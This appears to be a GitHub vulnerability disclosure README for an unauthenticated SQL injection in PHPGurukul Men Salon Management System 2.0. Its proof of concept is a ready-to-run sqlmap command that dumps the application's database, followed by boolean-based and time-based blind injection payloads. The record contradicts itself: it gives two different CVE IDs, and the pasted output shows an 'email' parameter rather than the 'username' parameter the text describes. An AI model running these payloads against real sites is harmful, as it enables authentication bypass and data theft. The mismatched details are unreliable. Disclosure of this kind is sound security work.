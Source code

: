 # CVE-2024-30998-PHPGurukul-Men-Salon-Management-System-2.0-SQL-Injection-Vulnerability (Unauthenticated)
+ Exploit Author: efekaanakkar
# Vendor Homepage
+ https://phpgurukul.com/men-salon-management-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=14066
# Overview
+ PHPGurukul Men Salon Management System V2.0 is susceptible to a A notable security weakness stems from inadequate safeguarding of the 'Username' parameter within the admin/index.php file. This vulnerability has the potential to be exploited for injecting harmful SQL queries, resulting in unauthorized access and extraction of confidential data from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-35511
+ Affected Version: PHPGurukul Men Salon Management System 2.0 
+ Parameter Name: username
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35511
# Description
+ Inadequate validation and sanitization of the 'username' parameter pave the way for attackers to construct SQL injection queries, circumventing authentication measures and obtaining unauthorized entry to the database.
# Proof of Concept (PoC) : 
+ `sqlmap -u "http://192.168.1.62/msms/admin/index.php" --method POST --data="username=admin&password=admin&login=Sign+In" -p"username" --random-agent --level 3 --risk 3 -D "msmsdb" --dump --tables`

```
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=test@test.com' RLIKE (SELECT (CASE WHEN (8847=8847) THEN 0x7465737440746573742e636f6d ELSE 0x28 END)) AND 'ZHEF'='ZHEF&sub=submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@test.com' AND (SELECT 8859 FROM (SELECT(SLEEP(5)))DjVt) AND 'ZEmv'='ZEmv&sub=submit
---

```
+ current database: `msmsdb`
![image](https://github.com/efekaanakkar/CVEs/assets/130908672/7cf45037-3e64-4fff-8337-86292c34ddd2)
